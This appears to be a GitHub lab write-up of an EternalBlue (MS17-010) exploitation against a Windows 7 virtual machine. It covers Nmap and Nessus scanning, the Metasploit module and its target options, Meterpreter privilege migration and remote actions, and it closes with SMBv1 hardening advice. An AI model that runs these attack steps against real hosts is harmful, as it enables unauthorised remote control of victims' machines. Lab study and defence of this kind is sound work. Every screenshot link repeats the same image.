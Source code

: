 # MS17-010 | EternalBlue Vulnerability Demonstration

## Lab setup & Environment
**Operating system:** Windows 10
**Virtualisation software:** Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))
**Download Oracle Virtual Machine:**
https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

## Virtual machines
**Windows 7 (64 bits)**

IP address: 192.168.0.141

Type: Victim

**Download Windows 7 ISO image link:**

https://archive.org/details/Windows7-iso

**Kali Linux**

Ip address: 192.168.0.78

Type: Attacker

Tools used: Nmap, Nessus, Metasploit framework

**Download Kali Linux:**

https://www.kali.org/get-kali/#kali-platforms

## Tools used:

**Nmap:** Port scanning

**Nessus:** Vulnerability scanning

**Metasploit framework (Msfconsole):** For exploitation and post exploitation

## Target Vulnerability:

**Name:** EternalBlue (MS17-010)

**CVE ID:** CVE-2017-0144

**Type:** Remote code execution

**Service affected:** SMB v1 (Port 445)

## Steps-by-steps Process
### Setup Oracle virtual box

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### Command:
**Ping from kali Linux to windows:**

ping 192.168.0.141

**Ping from windows to kali Linux**

ping 192.168.0.78

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

**Successful ping**

### Nessusd start and IP address:

https://localhost:8834

![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

### Vulnerability report

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

### Nmap 

nmap 192.168.0.141
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


## Exploitation

### Commands:

**Msfconsole**

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

**search ms1_010**

  ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
  
**use exploit/windows/smb/ms17_010_eternalblue**
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
**option command**
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
LHOST: 192.168.0.78

RHOST: 192.168.0.141 (Victim)

RPORT: 445
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
## Post exploitation

### Commands and their use:

**Meterpreter > getuid = Displays the username that the Meterpreter session is running as.**

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

### System Information

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)

 
### Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG) 

### Screenshot command
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
### Going into Desktop
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 
### Creating folder
 
 ![After_Shutdownd](Screenshot/After_shutdown_command.PNG)
 

### Shutdown command
 
![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### END

## For Defense

**Enable automatic updates for OS**

**Always apply latest Windows updates**

**Disable SMBv1 (For EternalBlue)**

**Powershell cmd:**

dism /online /norestart /disable-feature /featurename:SMB1Protocol

**Enable firewall/ window defender**

**Block unwanted incoming/outgoing traffic**

**Create rules to block ports (eg 445 for SMB)**

**Use of antivirus and scheduled scans**








